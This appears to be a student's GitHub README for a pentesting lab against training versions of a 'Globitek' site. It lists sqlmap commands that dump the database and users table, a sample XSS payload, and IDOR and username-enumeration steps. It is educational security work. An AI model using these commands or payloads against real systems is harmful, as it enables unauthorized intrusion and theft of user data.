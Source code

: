 # Project 8 - Pentesting Live Targets

Time spent: **8** hours spent in total

> Objective: Identify vulnerabilities in three different versions of the Globitek website: blue, green, and red.

The six possible exploits are:
* Username Enumeration
* Insecure Direct Object Reference (IDOR)
* SQL Injection (SQLi)
* Cross-Site Scripting (XSS)
* Cross-Site Request Forgery (CSRF)
* Session Hijacking/Fixation

Each version of the site has been given two of the six vulnerabilities. (In other words, all six of the exploits should be assignable to one of the sites.)

## Blue
Vulnerability #1: **SQL Injection**
  * **Steps:**
    1. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --current-db' to retrieve the database the website is currently using (which is "globitek_blue")
    2. Use command: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue --tables' to retrieve all of the tables that is in the database
    3. Use command: ''sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" --dump -D globitek_blue -T users' to retrieve all users' information
  * **GIF walkthrough:**
    * ![sqli](https://user-images.githubusercontent.com/31838335/39098942-fed0c51e-463f-11e8-82c4-e410750e79d1.gif)
    
Vulnerability #2: **Session Hijacking/Fixation**
  * **GIF walkthrough:**
    * ![session](https://user-images.githubusercontent.com/31838335/39490768-e5f18d20-4d57-11e8-9bd4-dcf86a85c0c9.gif)
    
## Green
Vulnerability #1: **Username Enumeration**
  * **Steps:**
    1. Type in username
    2. Type in a random password
    3. Teep submitting the wrong password multiple times until the "failed logins" message shows up
  * **GIF walkthrough:**
    * ![usernameenum](https://user-images.githubusercontent.com/31838335/39099064-ef761ec8-4641-11e8-8094-556642464fc3.gif)

Vulnerability #2: **Cross-Site Scripting**
  * **Steps:**
    1. Go to Contact
    2. Submit a feedback with malicious code: <script>alert('xss')</script>
  * **GIF walkthrough:**
    * ![xss](https://user-images.githubusercontent.com/31838335/39099083-3bf6dbde-4642-11e8-9e3f-1f8d585dd0d9.gif)

## **Red** version of Globitek website 
Vulnerability #1: **Insecure Direct Object Reference**
  * **Steps:**
    1. Go to https://35.184.168.159/blue/public/salesperson.php?id=1
    2. Change the value of id to 10 or 11 would reveal information that should not be revealed
  * **GIF walkthrough:**
    * ![idor](https://user-images.githubusercontent.com/31838335/39099090-56e74dac-4642-11e8-84f7-111537caefb6.gif)
Vulnerability #2: **Cross-Site Request Forgery**
  * **GIF walkthrough:**
    * ![crf](https://user-images.githubusercontent.com/31838335/39490692-a1d5aab8-4d57-11e8-8df6-815f79dde384.gif)
## **Bonus Objective 1:**
  * **Steps:**
    1. Since we know the name of the database we can use sqlmap to retrieve all information in the database
    2. Sample code: 'sqlmap -u "https://35.184.168.159/blue/public/salesperson.php?id=1" -D globitek_blue'
  * **GIF walkthrough:**
    * ![bonus](https://user-images.githubusercontent.com/31838335/39099232-0afc4502-4645-11e8-90de-94fda8d999ae.gif)


## Notes

Describe any challenges encountered while doing the work

